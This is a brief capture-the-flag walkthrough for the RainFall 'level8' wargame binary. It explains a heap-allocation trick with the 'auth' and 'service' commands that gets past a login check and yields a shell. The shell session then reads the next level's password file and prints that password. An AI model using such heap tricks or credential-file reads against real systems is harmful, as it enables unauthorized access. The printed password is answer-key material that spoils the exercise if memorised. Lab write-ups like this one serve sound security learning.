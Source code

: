 # Walkthrough

**Main** : 
The goal of exploiting the vulnerability in the program called "level8" is to gain unauthorized access over the program's execution by accessing sensitivearray that is not supposed to be accessible .


**Process**:  
>   the idea it's to make three malloc, then  from the first pointer you can read what is on the second, and vice versa.<br/> 
>   Just read further than what has been allocated<br/>
>   Initially auth point on the first alloc addr `x804a008` <br/>
>   The address has space by 16bytes<br/>
![Alt alloc](alloc.png)

## Solution 


```
level8@RainFall:~$ ./level8
(nil), (nil) 
auth 
0x804a008, (nil) 
service 
0x804a008, 0x804a018 
service 
0x804a008, 0x804a028 
login 
$ cat /home/user/level9/.pass
a542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
 
```

